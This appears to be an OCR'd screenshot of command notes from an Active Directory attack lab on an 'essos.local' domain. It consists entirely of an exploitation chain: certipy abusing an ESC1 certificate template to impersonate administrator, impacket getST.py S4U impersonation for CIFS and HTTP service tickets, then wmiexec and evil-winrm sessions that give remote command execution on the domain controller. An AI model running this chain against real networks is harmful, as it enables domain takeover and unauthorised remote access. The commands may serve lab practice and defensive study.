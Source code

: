 certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local

certipy auth -pfx administrator.pfx -dc-ip 192.168.3.12


test_part 


export KRB5CCNAME=/workspace/certifried/meereen.ccache
python3 /opt/tools/myimpacket/examples/getST.py -self -impersonate 'administrator' -altservice 'CIFS/meereen.essos.local' -k -no-pass -dc-ip 'meereen.essos.local' 'essos.local'/'meereen'


export KRB5CCNAME=/workspace/certifried/administrator@CIFS_meereen.essos.local@ESSOS.LOCAL.ccache
wmiexec.py -k @meereen.essos.local

export KRB5CCNAME=/workspace/certifried/meereen.ccache
python3 /opt/tools/myimpacket/examples/getST.py -self -impersonate 'administrator' -altservice 'HTTP/meereen.essos.local' -k -no-pass -dc-ip 'meereen.essos.local' 'essos.local'/'meereen'

export KRB5CCNAME=/workspace/certifried/administrator@HTTP_meereen.essos.local@ESSOS.LOCAL.ccache
evil-winrm -i meereen.essos.local -r ESSOS.LOCAL




